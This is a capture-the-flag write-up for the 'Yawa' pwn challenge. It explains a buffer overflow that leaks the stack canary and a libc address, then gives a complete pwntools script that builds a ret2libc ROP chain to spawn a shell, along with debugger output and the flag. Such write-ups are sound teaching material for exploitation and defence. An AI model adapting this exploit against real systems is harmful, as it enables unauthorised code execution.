







# Yawa
Solved by **[CapangJabba](https://www.linkedin.com/in/gnapaC/)**

## Question
Yet another welcome application.

## Writeup

### Overview

This challenge involves exploiting buffer overflow and format string vulnerabilities. The buffer overflow allows us to leverage the format string `%s` to leak addresses. Additionally, this challenge includes a return-to-libc (ret2libc) attack.

### Intial Analysis

In this challenge we were given 4 different files.

1. yawa (challenge executable)
2. yawa.c (challenge source code)
3. ld-2.35.so (dynamic linker/loader for the GNU C Library version 2.35)
4. libc.so.6 (main shared library for the GNU C Library)

When initially received executable, yawa cannot be run due the executable requirements using specific linker and main shared library. Using `pwninit` (https://github.com/io12/pwninit), the patching process becomes much easier. Now with the patched binary, it can now be run.

#### File Analysis

To know more about the given executable, we can use `file` command.

```bash
file yawa_patched 
yawa_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.35.so, for GNU/Linux 3.2.0, BuildID[sha1]=7f7b72aaab967245353b6816808804a6c4ad2168, not stripped
```

Key Findings:- 
1. **ELF 64-bit**: The file is in the ELF format and is a 64-bit binary. This means it is designed to run on a 64-bit architecture
2. **not stripped**: The executable has not had its symbol table and relocation information removed. This means it includes more information which can be helpful for debugging, but makes the file larger.

#### Executable Security Check

To figure out what security mitigations enabled in this executable, we can use `checksec` command that comes with `pwntools` library

```python
checksec --file yawa_patched 
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
```

All the security features are set for this binary.

### Code Analysis

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void init() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}

int menu() {
    int choice;
    puts("1. Tell me your name");
    puts("2. Get a personalised greeting");
    printf("> ");
    scanf("%d", &choice);
    return choice;
}

int main() {
    init();

    char name[88];
    int choice;

    while(1) {
        choice = menu();
        if(choice == 1) {
            read(0, name, 0x88);
        } else if(choice == 2) {
            printf("Hello, %s\n", name);
        } else {
            break;
        }
    }
}
```

Code Summary:-

1. The program will ask for option 1 or 2.
2. If option 1 then the program ask for inputs as long as 136 (buffer overflow occur here)
3. If option 2 then the program will print out "Hello, (with the name from input)"

#### Issue

**Buffer Overflow**

```C
char name[88];
read(0, name, 0x88);
```

- The name variable is set to size 88
- The input take is 0x88 which is 136

**Format String**

```C
printf("Hello, %s\n", name);
```

- With the presence of BOF and absence of specifying size of output, format specifier `%s` can be exploited
- The `%s` format specifier in the `printf` function is used to output a string. When `%s` is used, `printf` expects a pointer to a null-terminated string (a sequence of characters ending with the null character `\x00`).

### Payload Crafting

#### Leaking Information

To findout what the structure of the program's stack, we can use a debugger such as gdb. First set a breakpoint. Disassemble main function first to identify where to set our breakpoint.

```python
pwndbg> disass main
Dump of assembler code for function main:
   0x00000000000012b1 <+0>:	endbr64
   0x00000000000012b5 <+4>:	push   rbp
   0x00000000000012b6 <+5>:	mov    rbp,rsp
   0x00000000000012b9 <+8>:	sub    rsp,0x70
   0x00000000000012bd <+12>:	mov    rax,QWORD PTR fs:0x28
   0x00000000000012c6 <+21>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000000012ca <+25>:	xor    eax,eax
   0x00000000000012cc <+27>:	mov    eax,0x0
   0x00000000000012d1 <+32>:	call   0x11e9 <init>
```

The first 6 lines of this output shows how the stack being initialized. Set a breakpoint at `main+25`. Then run the program and type in command `telescope rsp 25` to view the structure of rsp for 25 values.

```python
0x00005555555552ca in main ()
.
.
.
pwndbg> telescope rsp 18
00:0000│ rsp 0x7fffffffdc50 ◂— 0x60 /* '`' */
01:0008│-068 0x7fffffffdc58 ◂— 0x0
02:0010│-060 0x7fffffffdc60 ◂— 0x1
03:0018│-058 0x7fffffffdc68 ◂— 0x0
... ↓        9 skipped
0d:0068│-008 0x7fffffffdcb8 ◂— 0x8d8039ec21141100
0e:0070│ rbp 0x7fffffffdcc0 ◂— 0x1
0f:0078│+008 0x7fffffffdcc8 —▸ 0x7ffff7c29d90 ◂— mov edi, eax
```

The structure of the stack can be seen. Diagram below illustrate the structure of the program's stack. 


To understand how to exploit `%s` and leak information. Understanding on how `%s` were needed. Diagram below shows how `%s` should work



The read() function will read up until `\n` which is the null terminator and it will store everything including `\n`. However, with the presence of BOF, the way `%s` works, we can leak information. Diagram below shows how this works.




##### Code 

```python
io.recvuntil(b'> ')
io.sendline(b'1')
pause()
info('Leaking Canary')
payload = 'A'*88
io.sendline(payload)
io.recvuntil(b'> ')
io.sendline(b'2')
print(io.recvline())
canary = u64(b'\x00' + io.recv(7))
print(hex(canary))
```



Previously, we mention `%s` will output everything up untill null byte `\0`. Using this technique, we overflow the buffer until it reaches the canary/address so when the program sends out output, it will leak out the canary/address value.



This process can also be done for leaking the return address. Diagram below illustrate how to achieve this. It will take 88 (buf size) + 8 (canary) + 8 (prev rbp) bytes to reach the return address. so we will need 'A' * 103 + '\\n' to leak it.




##### Code

```python
io.recvuntil(b'> ')
io.sendline(b'1')
payload= 'A'*103 
info('Leaking LibC Address')
io.sendline(payload)
io.recvuntil(b'> ')
io.sendline(b'2')
io.recvline()
libc_addr = unpack(io.recv(6).ljust(8,b'\x00'))
print(f"libc_addr: {hex(libc_addr)}")
```



#### Implementation

Up until now, the information gathered are
1. Canary
2. Return Address

Stack Canary protection can now be bypass with the leaked canary, but what can we do with the return address? 


As of now we dont know the return address offsets.

```python
pwndbg> telescope rsp 25
00:0000│ rsp 0x7fffffffdc50 ◂— 0x60 /* '`' */
01:0008│-068 0x7fffffffdc58 ◂— 0x100000000
02:0010│ rsi 0x7fffffffdc60 ◂— 'AAAAAAAAA\n'
03:0018│-058 0x7fffffffdc68 ◂— 0xa41 /* 'A\n' */
04:0020│-050 0x7fffffffdc70 ◂— 0x0
... ↓        8 skipped
0d:0068│-008 0x7fffffffdcb8 ◂— 0x447f9070da9cff00
0e:0070│ rbp 0x7fffffffdcc0 ◂— 0x1
0f:0078│+008 0x7fffffffdcc8 —▸ 0x7ffff7c29d90 ◂— mov edi, eax
```

However we can calculate the offset of the return address. The reason to find its offsets because.

- The LIBC base address will be randomized, however the offsets of each instructions in the LIBC will stay the same.

To achieve this, we use command `vmmap` in gdb pwndbg plugin and find the base address for the libc.




LibC base address : 0x7ffff7c00000
Return Address : 0x7ffff7c29d90

Offsets of the Return Address = LibC base address - Return Address = 0x29d90

Now the base address of LibC has been gained. Every information needed for the Ret-2-LibC attack has been acquired. The payload will be

1. Padding up until Canary
2. Canary
3. Padding up until Return Address
4. Return gadget (due to stack allignment issues)
5. pop rdi; ret gadget
6. 'binsh' string location appended
7. libC system address

steps 5-7 for the payload can be easily done with `pwntools` ROP chain function. After send the payload. We need to break out of the loop and let `main()` function returns to execute our payload. To break the loop we just enter input other than `1` and `2`. The code implementation as follows:-

##### Code

```python
rop =ROP(libc)
ret = libc.address + 0x00000000000f8c92
rop.system(next(libc.search(b'/bin/sh\x00')))

payload= b'A'*88 + p64(canary)

# offsets to rip = 104
payload+= b'A'*(104-len(payload))
payload += p64(ret)
payload += rop.chain()
io.sendline(payload)
io.sendline(b'100')
io.interactive()
```

##### Execution


##### Full Script

```python

from pwn import *
if args.REMOTE:
    io = remote(sys.argv[1],sys.argv[2])
else:
    io = process("./yawa_patched", )
elf = context.binary = ELF("./yawa_patched", checksec=False)

libc = ELF('./libc.so.6')

# 0x7fffffffdce8 last in stack can reach

context.log_level = 'info'
offset_canary = 88
offset_to_return = 104


io.recvuntil(b'> ')
io.sendline(b'1')
pause()
info('Leaking Canary')
payload = 'A'*88
io.sendline(payload)
io.recvuntil(b'> ')
io.sendline(b'2')
print(io.recvline())
canary = u64(b'\x00' + io.recv(7))
print(hex(canary))


io.recvuntil(b'> ')
io.sendline(b'1')
payload= 'A'*103 
info('Leaking LibC Address')
io.sendline(payload)
io.recvuntil(b'> ')
io.sendline(b'2')
io.recvline()
libc_addr = unpack(io.recv(6).ljust(8,b'\x00'))
print(f"libc_addr: {hex(libc_addr)}")
print(f"libc_start_main offset: {hex(libc.sym['__libc_start_main'])}")


base_address = libc_addr -0x29d90
libc.address = base_address
print(f"base_address: {hex(libc.address)}")
io.recvuntil(b'> ')
io.sendline(b'1')

rop =ROP(libc)
ret = libc.address + 0x00000000000f8c92
rop.system(next(libc.search(b'/bin/sh\x00')))

payload= b'A'*88 + p64(canary)

# offsets to rip = 104
payload+= b'A'*(104-len(payload))
payload += p64(ret)
payload += rop.chain()
io.sendline(payload)
io.sendline(b'100')
io.interactive()
```


### Flag
`DUCTF{Hello,AAAAAAAAAAAAAAAAAAAAAAAAA}`
